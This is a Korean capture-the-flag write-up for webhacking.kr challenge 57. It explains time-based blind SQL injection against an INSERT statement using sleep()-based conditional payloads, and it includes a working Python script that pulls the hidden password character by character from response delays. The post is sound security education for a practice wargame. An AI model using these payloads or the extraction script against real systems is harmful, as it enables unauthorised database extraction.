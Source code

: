 ```yaml
---
title: "[webhacking.kr] 57번 문제 풀이[Time-based SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
  - time-based
toc: true
toc_sticky: true
toc_label: "54번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 57번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/154034732-b90237e9-6f81-40af-bc0e-c4ccb895f0c2.png)

  
  ```php
<?php
  $db = dbconnect();
  if($_GET['msg'] && isset($_GET['se'])){
    $_GET['msg'] = addslashes($_GET['msg']);
    $_GET['se'] = addslashes($_GET['se']);
    if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
    mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
    echo "Done<br><br>";
    if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
  }
?>
  ```

# 문제 풀이
  인젝션을 해야 하는 부분은 다음과 같습니다.

```sql
insert into chall57(id,msg,pw,op) values('id','{msg}','flag',{se})
```

사용자 단에서 변경 가능한 부분은 msg와 se 부분이 있습니다. 이문제가 기존의 sql 문제들과 다른점은 화면에 출력되는 값이 없다는 점입니다. 즉 `select` 문이 없이 DB에 있는 데이터의 값을 읽어와야 합니다. 

보통의 blind sql injection의 경우 참/ 거짓의 결과가 나오기 때문에 원하는 쿼리문의 결과를 알 수 있었습니다. 지금같은 경우는 insert 문을 통해서 원하는 쿼리문의 결과를 알아야 하는데 그럴때 사용 가능한 기법이 Time-Based SQL Injection 입니다. 

이 기법은 다음과 같이 이용하여, 서버에서 오는 응답시간을 보고 쿼리문의 참/거짓을 판단할 수 있습니다.

```sql
insert into chall57 values('id','msg','flag',if(1=1,sleep(3),1)) #참인경우 응답이 3초뒤에 나옵니다

insert into chall57 values('id','msg','flag',if(1=2,sleep(3),1)) # 거짓인 경우 응답이 바로 나옵니다.

```

![image](https://user-images.githubusercontent.com/33647663/154036523-6e1a6b40-034a-40bb-b473-0cee9257927d.png)

문제에서 적용하면 다음과 같이 3초뒤에 화면이 새로고침 됩니다.

![image](https://user-images.githubusercontent.com/33647663/154036917-0ca3d3dc-eeec-422d-88bc-a87c58c227d4.png)



Time-Based SQL Injection은 일반적으로 Sleep 함수와 benchmark 함수를 이용할 수 있는데, 이번 문제에서는 benchmark 함수가 필터링 되어 있습니다. 다른 문제에서 만약 sleep이 필터링 되어 있다면 benchmark 함수를 사용 가능하다는 점도 인지하고 있으셔야 합니다.


파이썬 코드로 다음과 같이 작성하였습니다.

```python
from requests.exceptions import ReadTimeout
import requests
import string

url = "https://webhacking.kr/challenge/web-34/index.php"
params = {'msg' : '1234'}
flag_length = 0
for i in range(20,30):
    try:
        payload = 'if((length(pw)={}),sleep(3),1)'.format(i)
        params['se'] = payload
        requests.get(url,params=params,timeout=2)
    except ReadTimeout:
        print("FLAG's length is",i)
        flag_length=i
        break    

# FLAG 길이 24
flag = ''
for i in range(1,flag_length+1):
    for character in string.printable:
        try:
            payload = 'if((ascii(substr(pw,{},1))={}),sleep(3),1)'.format(i,ord(character))
            params['se'] = payload
            requests.get(url,params=params,timeout=2)
        except ReadTimeout:
            flag = flag + character
            print("\r[+]",flag,end='')
            break
print()
print('FLAG : ',flag)
```

![image](https://user-images.githubusercontent.com/33647663/154037062-6febfa07-d10d-410a-a3fa-5a4df15f98a7.png)